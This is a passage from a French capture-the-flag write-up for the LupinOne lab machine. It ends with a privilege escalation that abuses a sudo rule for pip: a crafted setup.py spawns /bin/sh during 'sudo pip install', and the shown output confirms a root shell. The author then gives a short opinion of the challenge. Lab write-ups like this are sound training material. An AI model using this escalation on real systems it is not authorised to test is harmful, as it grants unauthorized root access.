 L'entrée sudo ce n'est pas très original, mais cette fois la commande à exploiter c'est *pip* (le gestionnaire de paquets de Python), ça change :)  

On trouve une astuce permettant d'avoir un shell sur [gtfobins](https://gtfobins.github.io/gtfobins/pip/#shell) :  

```console
arsene@LupinOne:~$ TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
arsene@LupinOne:~$ sudo /usr/bin/pip install $TF
Processing /tmp/tmp.Grss4a5pEc
# id
uid=0(root) gid=0(root) groups=0(root)
```

Et un CTF de plus dans la liste ! De mon point de vue, trop de guessing sur la partie énumération qui n'apportait de plus rien d'intéressant. Le base 58 et l'exploitation de *pip* étaient plus amusantes mais ne requièrent pas de technicité particulière (on aurait pu toutefois chercher nous même à exploiter *pip* via l'écriture et la publication d'un paquet custom).  


*Published November 22 2021 at 22:24*
